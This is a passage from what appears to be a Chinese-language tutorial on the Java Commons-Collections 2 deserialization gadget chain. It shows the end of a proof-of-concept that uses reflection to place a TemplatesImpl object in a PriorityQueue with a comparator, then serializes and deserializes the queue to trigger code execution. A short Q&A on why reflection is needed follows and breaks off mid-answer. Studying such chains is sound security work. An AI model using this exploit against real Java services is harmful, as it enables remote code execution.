 ```java

        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue_field.setAccessible(true);
        queue_field.set(queue,queue_array);//让PriorityQueue的queue属性等于TemplatesImpl对象


        Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue,comparator);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }

    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```

一些构造POC的问题：

1. 为什么要通过反射的方式来设置queue的值，而不能直接add？

   这是因为在put的时候会将后一个元素与前一个元素进行比较，而 templates 是一个类，他和数字1无法进行比较，所以这里会报错。同样的，如果传入一个对象和另外一个对象，两者也无法进行比较，都会报出如下错误：
